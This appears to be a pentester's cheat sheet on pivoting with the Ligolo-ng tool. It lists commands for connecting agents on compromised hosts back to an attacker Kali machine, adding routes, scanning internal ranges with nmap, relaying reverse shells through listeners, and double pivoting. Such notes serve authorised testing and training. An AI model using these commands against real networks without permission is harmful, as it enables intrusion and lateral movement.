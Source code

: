 # Port Forwarding
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
    *   Ligolo   → `session` → Select Number → `start`
*   Local Forwarding
    *   Route    → `240.0.0.1/32`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivot's local ports)
*   Dynamic Forwarding
    *   Route → `[INTRANET_CIDR]`
        *   Generic    → `192.168.0.0/16`, `172.16.0.0/12`, `10.0.0.0/8`
        *   Linux        → `ip route`
        *   Windows → `route PRINT` → Check Router + Mask
    *   Nmap Scanning
        *   `sudo nmap -PE -sn  [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / File Transfers
        *   Kali                             → `listener_add --addr 0.0.0.0:30000 --to [KALI_IP]:[KALI_PORT] --tcp` 
        *   Intranet Machine   → Request/Send Shell To → `[FIRST_PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Ligolo                 → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to [KALI_IP]:11601 --tcp`
        *   Second Pivot   → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                     → `ligcreate() ligolo2` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo2`
        *   Ligolo                → `session` → Select Number → `start --tun ligolo2`

